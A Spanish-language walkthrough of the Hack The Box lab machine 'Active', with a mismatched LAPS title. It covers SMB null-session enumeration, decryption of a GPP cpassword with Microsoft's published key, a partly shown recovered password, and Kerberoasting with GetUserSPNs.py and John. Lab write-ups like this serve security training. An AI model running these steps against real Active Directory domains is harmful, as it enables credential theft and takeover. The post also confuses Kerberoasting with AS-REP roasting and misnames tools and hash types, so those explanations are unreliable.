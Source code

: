 ```yaml
---
title: "LAPS Local Administrator Password Solution"
layout: post
---
```




<h2>Presentación</h2>
Active es una excelente máquina para poner en práctica lo aprendido en el apartado de Hacking Active Directory del curso de TCM Security. Además de realizar enumeraciones a servicios a través del uso de Null sessions, la enumeración de servicios de puertos y servicios como 445/SMB, nos llevó a obtener credenciales y ejecutar un Kerberoasting attack.

<h2>Reconocimiento</h2>
En la fase de reconocimiento realizamos el siguiente network map, exportando el output en formato grep a un archivo llamado allports:
  
{% highlight bash %}
nmap -p- --min-rate 5000 10.10.10.100 -oG allports
{% endhighlight %}

**Output** Ports: 53/open/tcp//domain/, 88/open/tcp//kerberos-sec/, 135/open/tcp//msrpc, 139/open/tcp//netbios-ssn, 389/open/tcp//ldap/, 445/open/tcp//microsoft-ds/, 464/open/tcp//kpasswd5/, 593/open/tcp...

<h2>Puertos y Servicios</h2>
Con el fin de conocer un poco más de los servicios que se están ejecutando y lanzar una serie de script básico de reconocimiento para dichos puertos y servicios. 

{% highlight bash %}
nmap -p53,88,135,139,445,464,593,636,3268,3269,5722,9389 -sCV -A -oN allservices 10.10.10.100
{% endhighlight %}

![Ative HTB](/assets/images/services.png)

<h2> SMB smbmap % smbclient </h2>
A través de smbclient nos conectamos al directorio que tenemos acceso de lectura como nos indicó el comando, en este caso el directorio \Replication, luego de mapear dicho directorios con el comando smbmap que nos lista los permisos de los directorios, es decir si tenemos permisos de lectura y escritura:

{% highlight bash %}
smbmap -H 10.10.10.100
{% endhighlight %}

Con smbclient haciendo uso de un null session accedimos a listar dicho directorio y su contenido.
{% highlight bash %}
smbclient //10.10.10.100/Replicacion -U ""%""
{% endhighlight %}



Luego de navegar por el directorio policies en busca de algo interesante y observando cada archivo hasta dar con el archivo groups.xml, que según el siguiente article de [Hacking-Article][Hacking-Article] es creado como consecuencia de la configuración de Group Policy Preference, en la que permiten a un administrador crear policies e instalar aplicaciones a través de Group Policy. Y sobre la cual se guarda una contraseña encriptada en formato _cpassword_, y de la cual Microsoft publicó la llave, como podemos observar en el siguiente artículo, [Microsoft][Microsoft], trasladamos el contenido de dicha carpeta a nuestra carpeta content y efectivamente, como se puede observar, obtenemos las credenciales del usuario SVC_TGS:

{% highlight bash %} <?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>
</Groups> {% endhighlight %}

Desencriptamos la contraseña con el uso de la herramienta gpp-decrypt:


también podemos hacer uso de el siguiente one-liner ya que conocemos la llave como mencionamos anteriormente:
{% highlight bash %} echo 'password_in_base64' | base64 -d | openssl enc -d -aes-256-cbc -K 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b -iv 0000000000000000 {% endhighlight %}

<h2>Validación de credenciales</h2>

Utilizamos la herramienta crackmapexec.py del poderoso _impacket_ para verificar la autenticidad de dicho usuario en el dominio **active.htb**, las cuales resultaron ser válida aunque no obtuvimos un (Pwned!) e intentamos verificar si podiamos loguearnos a traves de winrm, pero no fue así. 



**Nota** desde aqui podemos visualizar la flag del user, haciendo uso de smbclient y navegando entre directorios :)

{% highlight bash %} smbclient //10.10.10.100/Users -U active.htb\\SVC_TGS%GPPstillStandingSt----8 {% endhighlight %}

Pero teniendo un usuario y contraseña, se nos hace posible realizar un Kerberoasting attack, el cual TCM Security explica detallamente, que nos _dumpea_ los krbasrep5 hashes de las cuentas que tienen _Kerberos pre-authentication deshabilidata_ pero que explico con más detalle en el siguiente artículo, sobre mis apuntes. 
Para esto utilizamos la herramienta _GetUserSPNs.py_, del poderoso impacket 🏅  

{% highlight bash %} GetUserSPNs.py -request -dc-ip 10.10.10.100 active.htb/SVC_TGS {% endhighlight %}

obtenemos el hash NTLMv2, enviamos a un archivo de texto y utilizamos John The Ripper, para obtener la credencial en texto plano.



y ya obteniendo credenciales de administrador como nos muestra la primera línea del output del GetUserSPNs.py, y contraseña nos logueamos en el sistema. 


Ya siendo Nt Authority\System, a buscar las flags.
Que he decidido mostrar solo si existe algún paso más para llegar a ellas, no que tan solo sea navegar entre directorios como es este el caso, para poder verla. 


[Hacking-Article]: https://www.hackingarticles.in/credential-dumping-group-policy-preferences-gpp/
[Microsoft]: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0
